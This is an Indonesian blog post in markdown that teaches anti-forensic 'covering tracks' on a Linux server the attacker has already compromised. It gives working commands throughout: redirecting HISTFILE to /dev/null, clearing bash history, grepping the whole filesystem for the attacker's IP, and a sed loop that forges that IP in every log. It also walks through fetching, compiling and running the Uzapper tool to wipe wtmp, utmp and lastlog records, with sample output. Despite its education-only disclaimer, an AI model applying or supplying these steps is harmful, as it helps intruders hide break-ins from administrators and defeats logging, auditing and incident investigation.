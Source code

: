 ```yaml
---
layout: post
title: Covering Tracks! Menjadi Hantu pada Linux Server
categories: [Covering Track]
author: Novran Faathir
---
```


Sesuatu hal yang "SULIT TERDETEKSI" itu memanglah menarik, sama seperti melakukan Covering Tracks.

**Covering Track adalah** upaya untuk menghilangkan jejak setelah melakukan penyerangan terhadap aplikasi maupun Server.

Pada dasarnya seorang Administrator itu akan selalu berurusan dengan yang namanya Log File dan tentunya sebagai Attacker pun harus menghindar dari Log File tersebut.

## REMEMBER: For Education Purpose Only!

Artikel ini hanya untuk pembelajaran saja dan kedepannya pun mungkin kami akan menulis tentang solusi untuk `Anti Covering Track`-nya juga.

Peran kita disini yaitu sebagai "Attacker" yang sudah melakukan Take-over sebuah Server yang menggunakan sistem operasi Linux, kemudian kita masuk kedalam Shell dari Server tersebut.

# BASH History

**HISTFILE**

HISTFILE adalah sebuah Environment Variable pada Linux yang digunakan untuk mengarahkan sebuah file history yang berisi command-command yang sebelumnya sudah pernah dieksekusi oleh User.

```
user1@linux:~$ echo $HISTFILE
/home/user1/.bash_history
```

```
user1@linux:~$ cat /home/user1/.bash_history
sudo apt-get clean
sudo vi /etc/apt/sources.list
sudo apt-get update
...
```

Supaya aktifitas kita sebagai Attacker tidak tercatat, lebih baik kita arahkan ke `/dev/null`.
```
user1@linux:~$ HISTFILE=/dev/null
user1@linux:~$ echo $HISTFILE
/dev/null
```

Namun ada langkah frustasi, kalau kita lupa mengarahkan BASH History sebelumnya (di-awal).

**Clean History**

```
user1@linux:~$ history -c
```

# Clean Your Public IP from Log File

Hal ini dapat dilakukan kalau kalian memiliki hak akses level "root" karena disini kita akan memanipulasi Log File tentunya.

Pertama-tama ketahuilah IP Public kita sendiri, kita dapat melihatnya melalui website:

<https://www.whatismyip.com/>

**Mencari Log File yang mencatat IP kita**

```
root@linux:~# grep -Rn 'YOUR IP' /var/log/ 2> /dev/null
```

Atau gunakan command di bawah ini untuk mencari LOG keseluruhan (dari root):

```
root@linux:~# grep -Rn 'YOUR IP' / 2> /dev/null
```

**NOTE:** Ubah `YOUR IP` menjadi IP Address kalian.

**Manipulasi IP Address pada Log File**

`Mengapa tidak dihapus saja LOG-nya?`

Jika Log File kita hapus, itu adalah tindakan yang gegabah dan tidak menutup kemungkinan `Administrator` akan melakukan eskalasi ke pihak `Provider`.

**Manipulasi Log**

Disini kita akan menggunakan perintah `sed`.

Contoh:
```
root@linux:~# sed 's/KATA ASLI/KATA GANTI/g' file
```

Supaya lebih cepat memanipulasi IP, kita jadikan script seperti di bawah ini:

```
for LOGFILE in $(grep -Rn 'YOUR IP' / 2> /dev/null | awk -F ':' '{print $1}' | sort -V | uniq)
do
sed 's/YOUR IP/FAKE IP/g' $LOGFILE
done
```

# Stealth from WTMP, UTMP, and Lastlog

- WTMP = mencatat setiap ada yang login/logoff
- UTMP = mencatat siapa yang sedang melakukan akses saat ini
- Lastlog = mencatat source address user yang melakukan login terakhir

**Uzapper Tool**

Tool ini digunakan untuk menghapus log umum pada sistem operasi Solaris, SunOS, IRIX, Linux, FreeBSD.

Kalian dapat unduh pada link di bawah ini:

- <https://packetstormsecurity.com/files/16378/uzapper.c.html>

Untuk melihat siapa yang sedang masuk dan melihat apa yang sedang mereka lakukan (berdasarkan sesi), kalian dapat menggunakan perintah `w`.

```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
  user1 pts/2 ???  2:52am 1                -sh
```

Compile Uzapper:
```
root@linux:~# gcc uzapper.c -o uzapper
```

Jalankan Uzapper:
```
root@linux:~# ./uzapper user1
```

Periksa kembali sesi yang aktif:
```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
```

**user1** hilang, karena sudah di-wipe menggunakan Uzapper.

# Done!
Artikel tentang Covering Track ini hanya untuk pelajaran saja, pasti banyak yang bertanya-tanya `Kenapa gak pake VPN aja? Biar gak ribet!`.

Silakan dijawab sendiri :)

Terima kasih.
